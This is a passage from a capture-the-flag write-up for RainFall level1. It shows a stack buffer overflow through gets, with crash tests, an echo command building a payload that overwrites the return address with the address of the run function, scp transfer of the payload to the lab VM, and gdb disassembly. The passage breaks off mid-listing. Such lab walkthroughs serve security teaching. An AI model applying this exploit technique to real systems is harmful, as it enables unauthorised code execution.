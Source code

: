 ```shell-session
level1@RainFall:~$ ./level1
00000000000000000000000000000000000000000000000000000000000000000000000000000
Illegal instruction (core dumped)
level1@RainFall:~$ ./level1
000000000000000000000000000000000000000000000000000000000000000000000000000000
Segmentation fault (core dumped)
```

But we also noticed that with some lengths, the program crashes with an `Illegal Instruction` message instead of a SEGV. And we know that this message means that we are corrupting a return address, which is sending the code to where all those "illegal instructions" exist.

This means that we now know the length of the input needed for rewriting the return address of the function, we must now proceed to append the bytes representing the address of the `run` function to that input string in order to successfully jump the code of that function at runtime.

Lets create a malicious file containing a malicious input string.

# injectme

1. Create the shellcode by writing the wanted bytes into an input string we will feed to the `gets` function

```shell-session
λ rainfall42/level1/Ressources echo -n -e '0000000000000000000000000000000000000000000000000000000000000000000000000000\x44\x84\x04\x08' > injectme
```

2. Send the string to the VM over the Bridged Network with SCP

```gdb
 λ rainfall42/level1/Ressources scp -P 4242 injectme scp://level1@192.168.24.236//tmp
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 192.168.24.236:4242
level1@192.168.24.236's password:
injectme
```

3. Make a breakpoint to the desired address and feed the malicious input to the binary and see the executed halted as expected

```gdb
level1@RainFall:~$ gdb -q level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   ebp
   0x08048445 <+1>:	mov    ebp,esp
   0x08048447 <+3>:	sub    esp,0x18                     <-- Stack space of 24 allocated
   0x0804844a <+6>:	mov    eax,ds:0x80497c0             <-- Load stdout
   0x0804844f <+11>:	mov    edx,eax
   0x08048451 <+13>:	mov    eax,0x8048570                <-- Set "Good... Wait what?\n" to eax
   0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx      <-- Set stdout as the 3rd argument to fwrite()
   0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13     <-- Set the length of the string to 13 bytes as the 2nd argument to fwrite()
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1      <-- Set the number of times to write the string to 1 as the 1st argument to fwrite()
```